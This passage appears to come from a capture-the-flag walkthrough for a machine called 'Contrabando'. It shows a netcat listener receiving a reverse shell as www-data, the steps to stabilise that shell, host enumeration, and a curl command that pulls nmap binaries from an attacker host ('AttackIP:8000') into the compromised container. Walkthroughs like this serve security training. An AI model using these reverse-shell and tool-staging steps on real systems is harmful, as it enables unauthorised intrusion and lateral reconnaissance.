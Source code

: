 ```bash
:~/Contrabando# nc -nlvp 9001
Listening on 0.0.0.0 9001
Connection received on xx.xxx.xx.xxx 38052
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@124a042cc76c:/var/www/html$ ls
ls
gen.php
home.html
index.php
sky.jpeg
www-data@124a042cc76c:/var/www/html$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@124a042cc76c:/var/www/html$ ^Z
[1]+  Stopped                 nc -nlvp 9001
:~/Contrabando# stty raw -echo; fg
nc -nlvp 9001
www-data@124a042cc76c:/var/www/html$ export TERM=xterm
www-data@124a042cc76c:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

<img width="1096" height="414" alt="image" src="https://github.com/user-attachments/assets/1e2980d4-cdf6-4180-861e-d2de7dde1ecc" />

<br>
<br>

```bash
www-data@124a042cc76c:/var/www/html$ getent hosts
127.0.0.1       localhost
127.0.0.1       localhost ip6-localhost ip6-loopback
172.18.0.3      124a042cc76c
```

<h2>nmap</h2>

```bash
:~/Contrabando# wget https://github.com/opsec-infosec/nmap-static-binaries/releases/download/v2/nmap-x64.tar.gz
--2025-08-25 xx:xx:xx--  https://github.com/opsec-infosec/nmap-static-binaries/releases/download/v2/nmap-x64.tar.gz
```

```bash
www-data@124a042cc76c:/tmp$ curl AttackIP:8000/nmap-x64.tar.gz -o nmap-x
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 10.1M  100 10.1M    0     0   139M      0 --:--:-- --:--:-- --:--:--  139M
```

```bash
www-data@124a042cc76c:/dev/shm$ tar -xzf nmap-x64.tar.gz
```

```bash
www-data@124a042cc76c:/tmp$ ls
full-scan.sh	   nmap-payloads	nmap-x64.tar.gz  nselib
ncat		   nmap-protocols	nmap.dtd	 scan-port.sh
nmap		   nmap-rpc		nmap.xsl	 scan.sh
nmap-mac-prefixes  nmap-service-probes	nping		 scripts
nmap-os-db	   nmap-services	nse_main.lua
```
